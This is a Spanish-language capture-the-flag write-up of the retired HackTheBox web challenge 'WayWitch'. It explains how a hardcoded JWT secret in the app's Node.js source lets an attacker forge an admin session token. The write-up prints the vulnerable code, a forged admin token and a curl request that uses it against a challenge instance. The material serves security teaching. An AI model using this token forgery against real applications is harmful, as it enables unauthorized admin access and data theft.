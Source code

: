 ```yaml
---
layout: ctf
title: "WayWitch"
date: 2025-09-18
category: "Web"
description: "Falsificación de Json Web Tokens"

---
```



# Way Witch 

Este es un reto web retirado de HackTheBox diseñado para enseñar los fundamentos de la falsificación de tokens JWT (JSON Web Tokens). El objetivo principal es comprender cómo identificar y explotar vulnerabilidades relacionadas con secretos JWT débiles o hardcodeados en aplicaciones web reales.

## Análisis Inicial

La descripción del reto nos da varias pistas sobre la vulnerabilidad:Hidden in the shadows, a coven of witches communicates through arcane tokens, their messages cloaked in layers of dark enchantments. These enchanted tokens safeguard their cryptic conversations, masking sinister plots that threaten to unfold under the veil of night. However, whispers suggest that their protective spells are flawed, allowing outsiders to forge their own charms. Can you exploit the weaknesses in their mystical seals, craft a token of your own, and infiltrate their circle to thwart their nefarious plans before the next moon rises?
- "tokens arcanos" → Tokens de autenticación (probablemente JWT)
- "hechizos protectores defectuosos" → Vulnerabilidad en la validación de tokens
- "forjan sus propios hechizos" → Ataque de falsificación de tokens
- "crear un token propio" → Necesitamos crear un token malicioso

## Reconocimiento

### Análisis de la Aplicación Web
Primero, accedí a la aplicación web y descubrí:
- Un sistema de envío de tickets llamado "WitchWay"
- JavaScript genera automáticamente tokens JWT para usuarios invitados
- La aplicación usa cookies para almacenar tokens de sesión

![Interfaz principal de la aplicación]({{site.baseurl}}/assets/images/way/interfaz.png)
### Revisión del Código Fuente
El reto proporcionó archivos de código fuente que revelaron la estructura de la aplicación:
- Backend **Node.js/Express**
- Base de datos **SQLite** con tickets
- Sistema de autenticación **JWT**

#### Análisis de Archivos Clave

**`util.js` - La Vulnerabilidad Crítica**
```javascript
const jwt = require("jsonwebtoken");

function getUsernameFromToken(token) {
  const secret = "halloween-secret"; // ← SECRETO HARDCODEADO!
  
  try {
    const decoded = jwt.verify(token, secret);
    return decoded.username;
  } catch (err) {
    throw new Error("Invalid token: " + err.message);
  }
}
```

**¡El secreto JWT está hardcodeado!** Esto es una vulnerabilidad crítica que permite la falsificación de tokens.

**`routes/index.js` - Control de Acceso**
```javascript
router.get("/tickets", async (req, res) => {
  const sessionToken = req.cookies.session_token;
  
  if (!sessionToken) {
    return res.status(401).json(response("No session token provided"));
  }
  
  try {
    const username = getUsernameFromToken(sessionToken);
    
    if (username === "admin") { // ← Solo admins pueden ver tickets
      try {
        const tickets = await db.get_tickets();
        return res.status(200).json({ tickets });
      } catch (err) {
        return res.status(500).json(response("Error fetching tickets: " + err.message));
      }
    } else {
      return res.status(403).json(response("Access denied. Admin privileges required."));
    }
  } catch (err) {
    return res.status(400).json(response(err.message));
  }
});
```

**`database.js` - La Flag Objetivo**
```javascript
await this.db.exec(`
  INSERT INTO tickets (name, username, content) VALUES
  ('Admin', 'admin', 'Top secret: The Halloween party is at the haunted mansion this year. Use this code to enter ${flag}'),
  // ... otros tickets
`);
```

La flag está en el contenido del ticket del usuario 'admin'.
Capturamos nuestro token de sesion con el que luego vamos a forjar el de admin

![token usuario]({{site.baseurl}}/assets/images/way/token.png)

## Identificación de la Vulnerabilidad


La aplicación comete varios errores críticos:
1. **Secreto JWT hardcodeado** en el código fuente
2. **Mismo secreto usado en frontend** (visible en el JavaScript del cliente)
3. **Control de acceso basado únicamente en el contenido del JWT**

## Explotación

### Paso 1: Generación del Token Malicioso

Usando la información obtenida del código fuente, creamos un JWT malicioso:

**Herramientas utilizadas:**
- jwt.io (online JWT generator)
- Secreto conocido: `halloween-secret`

**Payload del JWT:**
```json
{
  "username": "admin",
  "iat": 1758213146
}
```

**Token generado:**
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzU4MjEzMTQ2fQ.VOACMe_yhFP9PhzZlKyqd-2A-zfQf9330OOV0hhVHx0
```

![Generación del token en jwt.io]({{site.baseurl}}/assets/images/way/token_admin.png)

### Paso 2: Acceso a los Tickets

Realizamos una petición al endpoint `/tickets` usando el token falsificado:

```bash
curl -k "https://94.237.48.12:31749/tickets" \
     -H "Cookie: session_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzU4MjEzMTQ2fQ.VOACMe_yhFP9PhzZlKyqd-2A-zfQf9330OOV0hhVHx0"
```

![Comando curl y respuesta]({{site.baseurl}}/assets/images/way/curl.png)

### Paso 3: Obtención de la Flag

La respuesta del servidor revela todos los tickets, incluyendo el del admin que contiene la flag:

```json
{
  "tickets": [
    {
      "id": 3,
      "name": "Admin",
      "username": "admin", 
      "content": "Top secret: The Halloween party is at the haunted mansion this year. Use this code to enter HTB{***CENSURADA***}\n"
    }
    // ... otros tickets
  ]
}
```
## Información sobre Json Web token:

[Informacion de Json Web token en español](https://openwebinars.net/blog/que-es-json-web-token-y-como-funciona/)

## Conclusión

Un reto muy diverto de Xclow3n que representa una vulnerabilidad real y común en aplicaciones web que usan JWT. La facilidad de explotación (una vez identificada la vulnerabilidad) resalta la importancia de implementar prácticas de seguridad adecuadas desde el desarrollo.


